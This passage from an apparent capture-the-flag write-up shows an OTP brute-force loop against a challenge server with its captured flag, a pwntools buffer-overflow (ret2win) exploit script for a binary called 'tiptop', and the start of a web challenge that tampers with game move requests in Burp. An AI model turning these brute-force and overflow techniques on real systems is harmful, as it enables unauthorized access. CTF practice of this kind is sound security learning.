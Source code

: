 ```python
    data['otp']=str(i)
    r = requests.post("http://4.240.104.200:5003/verify-otp",json=data)
    if("Invalid" not in r.text):print(r.text)
```
**Flag :**  HTB{L3NGTH_D0E5NT_MATT3R_0R_D03S_1T?}

### TIP TOP PWN

```
from pwn import *

elf = context.binary = ELF('./tiptop')
context.terminal = ['kitty', '-e']

gdbscript = '''
b*main
b*magic_menu
'''

if args.REMOTE:
    p = remote('4.240.104.200',6974)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)

#=======exploit=======#


payload = b'A'*72 + p64(0x0000000000401016) + p64(elf.sym['magiccolour'])

p.recvuntil(b'5. Orange\n')
p.sendline(b'4')
p.sendline(payload)
#p.recvuntil(b'name')
#p.send(payload)

p.interactive()
```


**Tic Tac Toe** -web 
playing the game normally leads to the server replacing our moves and cheating
then we open the **/move_1** in burp and start modifying request to see what it can take
```json
{
    "game_id": "20b3290a-c",
    "row": 0,
    "col": 0,
    "moveNo": 1
}
```
